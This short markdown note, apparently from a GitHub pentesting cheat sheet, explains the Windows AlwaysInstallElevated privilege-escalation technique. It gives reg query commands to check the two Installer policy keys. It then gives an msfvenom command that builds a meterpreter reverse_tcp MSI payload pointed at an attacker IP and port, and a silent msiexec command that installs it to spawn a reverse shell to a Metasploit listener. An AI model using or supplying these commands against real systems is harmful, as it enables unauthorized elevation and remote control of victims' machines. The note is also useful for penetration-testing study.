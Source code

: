 # AlwaysInstallElevated
If the two registry keys liosted below are present and both equal "0x1", then we can exploit these permissions to spawn a reverse shell using a specially crafted MSI file.
```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Generate the malicious MSI file like so,
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=(ATTACKER IP ADDRESS) lport=(ATTACKER PORT) –f  msi > install.msi
```
STart the listener using the `exploit/multi/handler` module on the correct port, and infiltrate the MSI file to the target system. Then, simply install it with the following command,
```
C:> msiexec /quiet /qn /i  install.msi
```
And a reverse shell should spawn to the listener.
### Reference
* https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/

